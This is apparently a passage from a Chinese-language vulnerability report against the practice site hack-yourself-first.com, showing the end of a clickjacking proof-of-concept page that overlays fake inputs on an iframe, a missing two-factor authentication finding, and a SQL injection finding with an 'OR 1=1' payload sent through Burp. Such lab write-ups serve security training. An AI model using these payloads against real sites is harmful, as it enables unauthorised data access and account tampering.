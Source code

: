 ```html
    
    .delete { 
        position:absolute;
        top: 20px;
        left:50px;
        z-index: 1;
    }
    
</style>
<div class="animal">Enter an animal name:</div>
<div class="bird">Enter a bird name:</div>
<div class="ok">Ok</div>
<h4 class="delete">Press "Ctrl+A" and "Del" before typing</h4>
<input type="text" class="input1"></input>
<input type="text" class="input2"></input>
<iframe src="https://hack-yourself-first.com/Account/UserProfile/333"></iframe>

</body>
</html>
```

注意：这在 Firefox 中可以无问题工作，如果你使用其他浏览器，则必须增加 iframe 的透明度并相应调整。

# 22 无双因素认证

摘要：双因素认证（2FA）提供了额外的安全层，但该应用程序未能实现。

影响：由于此缺陷，用户相信他们的密码不会被破解，从而使他们的账户处于风险中。

# 23 SQL 注入

摘要：SQL 注入可能使攻击者查看表中所有内容。

复现步骤：访问以下地址："https://hack-yourself-first.com/CarsByCylinders?Cylinders=V12" ，你将在页面中看到一些内容。然后，重新加载页面并在 Burp 中捕获请求，修改请求为 `"GET /CarsByCylinders?Cylinders=V12'+OR+1=1-- - HTTP/2"` ，继续发送请求。现在你会看到额外的内容。

影响：由于此漏洞，攻击者可以查看应用程序不希望公开的额外信息。
